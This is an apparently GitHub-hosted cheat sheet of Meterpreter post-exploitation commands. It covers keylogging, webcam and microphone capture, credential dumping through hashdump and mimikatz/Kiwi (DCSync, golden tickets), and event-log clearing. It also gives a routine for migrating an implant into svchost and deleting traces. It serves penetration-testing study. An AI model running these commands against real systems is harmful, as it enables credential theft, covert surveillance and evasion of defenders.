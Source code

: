 # Meterpreter commands

- Core commands will be helpful to navigate and interact with the target system. Below are some of the most commonly used. 
- Remember to check all available commands running the help command once a Meterpreter session has started.

## Post Exploitation Modules Reference
- https://www.offensive-security.com/metasploit-unleashed/post-module-reference/
## Core commands

-   `background`: Backgrounds the current session
-   `exit`: Terminate the Meterpreter session
-   `guid`: Get the session GUID (Globally Unique Identifier)

-   `help`: Displays the help menu
-   `info`: Displays information about a Post module
-   `irb`: Opens an interactive Ruby shell on the current session
-   `load`: Loads one or more Meterpreter extensions
-   `migrate`: Allows you to migrate Meterpreter to another process
-   `run`: Executes a Meterpreter script or Post module
-   `sessions`: Quickly switch to another session

## File system commands

-   `cd`: Will change directory
-   `ls`: Will list files in the current directory (dir will also work)
-   `pwd`: Prints the current working directory
-   `edit`: will allow you to edit a file
-   `cat`: Will show the contents of a file to the screen
-   `rm`: Will delete the specified file
-   `search`: Will search for files
-   `upload`: Will upload a file or directory
-   `download`: Will download a file or directory

## Networking commands

-   `arp`: Displays the host ARP (Address Resolution Protocol) cache
-   `ifconfig`: Displays network interfaces available on the target system

-   `netstat`: Displays the network connections
-   `portfwd`: Forwards a local port to a remote service
-   `route`: Allows you to view and modify the routing table

## System commands

-   `clearev`: Clears the event logs
-   `execute`: Executes a command
-   `getpid`: Shows the current process identifier
-   `getuid`: Shows the user that Meterpreter is running as
-   `kill`: Terminates a process
-   `pkill`: Terminates processes by name
-   `ps`: Lists running processes
-   `reboot`: Reboots the remote computer
-   `shell`: Drops into a system command shell
-   `shutdown`: Shuts down the remote computer
-   `sysinfo`: Gets information about the remote system, such as OS

## Others Commands (these will be listed under different menu categories in the help menu)

-   `idletime`: Returns the number of seconds the remote user has been idle
-   `keyscan_dump`: Dumps the keystroke buffer
-   `keyscan_start`: Starts capturing keystrokes
-   `keyscan_stop`: Stops capturing keystrokes
-   `screenshare`: Allows you to watch the remote user's desktop in real time
-   `screenshot`: Grabs a screenshot of the interactive desktop
-   `record_mic`: Records audio from the default microphone for X seconds
-   `webcam_chat`: Starts a video chat
-   `webcam_list`: Lists webcams
-   `webcam_snap`: Takes a snapshot from the specified webcam
-   `webcam_stream`: Plays a video stream from the specified webcam
-   `getsystem`: Attempts to elevate your privilege to that of local system
-   `hashdump`: Dumps the contents of the SAM database
## Modules
### Kiwi Commands
    Command                Description
    -------                -----------
    creds_all              Retrieve all credentials (parsed)
    creds_kerberos         Retrieve Kerberos creds (parsed)
    creds_msv              Retrieve LM/NTLM creds (parsed)
    creds_ssp              Retrieve SSP creds
    creds_tspkg            Retrieve TsPkg creds (parsed)
    creds_wdigest          Retrieve WDigest creds (parsed)
    dcsync                 Retrieve user account information via DCSync (unparsed)
    dcsync_ntlm            Retrieve user account NTLM hash, SID and RID via DCSync
    golden_ticket_create   Create a golden kerberos ticket
    kerberos_ticket_list   List all kerberos tickets (unparsed)
    kerberos_ticket_purge  Purge any in-use kerberos tickets
    kerberos_ticket_use    Use a kerberos ticket
    kiwi_cmd               Execute an arbitary mimikatz command (unparsed)
    lsa_dump_sam           Dump LSA SAM (unparsed)
    lsa_dump_secrets       Dump LSA secrets (unparsed)
    password_change        Change the password/hash of a user
    wifi_list              List wifi profiles/creds for the current user
    wifi_list_shared       List shared wifi profiles/creds (requires SYSTEM)

- Although all these commands may seem available under the help menu, they may not all work. For example, the target system might not have a webcam, or it can be running on a virtual machine without a proper desktop environment.

## New Meterpreter Session Steps 
- Assuming you gained access, inserted AV Path Exception, wrote implant to disk and executed to catch you callback 
````
getuid #see your user context
getpid #identify pid you are running as (should be the pid of your msfvenom implant named whatever you assigned)
getprivs #see enabled process privileges
ps #view the whole process list and pick and svchost process within the same user context, get its pid number
migrate XXXX #to the pid of the svchost process 
getpid #confirm new pid
ps #ensure it is of the correct process 
del /path/to/implant #remove implant artifact from disk 
````
- Now you are set up and running as a thread in the address space of the `svchost.exe` process 
### File collect with meterpreter 
- `download` and `upload` commands 
- Ensure you are escaping the windows "\"
- Example:
````
download C:\\Users\\Administrator\\Desktop\\secret.txt
````
## Post Modules for Windows Survey 
````
meterpreter > run post/windows/gather/arp_scanner RHOSTS=192.168.1.0/24
-----------------------------------------------------------------------
meterpreter > run post/windows/gather/checkvm 
-----------------------------------------------------------------------
meterpreter > run post/windows/gather/credentials/credential_collector 
**ENSURE SYSTEM before running
-----------------------------------------------------------------------
**ENSURE you migrate to a user process before running dumplinks**
meterpreter > run post/windows/manage/migrate 
meterpreter > run post/windows/gather/dumplinks 
-----------------------------------------------------------------------
meterpreter > run post/windows/gather/enum_applications 
-----------------------------------------------------------------------
meterpreter > run post/windows/gather/enum_logged_on_users 
-----------------------------------------------------------------------
meterpreter > run post/windows/gather/enum_shares 
-----------------------------------------------------------------------
meterpreter > run post/windows/gather/enum_snmp
-----------------------------------------------------------------------
meterpreter > run post/windows/gather/hashdump
**ENSURE SYSTEM before running 
-----------------------------------------------------------------------
meterpreter > run post/windows/gather/usb_history 
-----------------------------------------------------------------------
msf > use post/multi/recon/local_exploit_suggester
set SESSION X
SHOWDESCRIPTION true
-----------------------------------------------------------------------
````
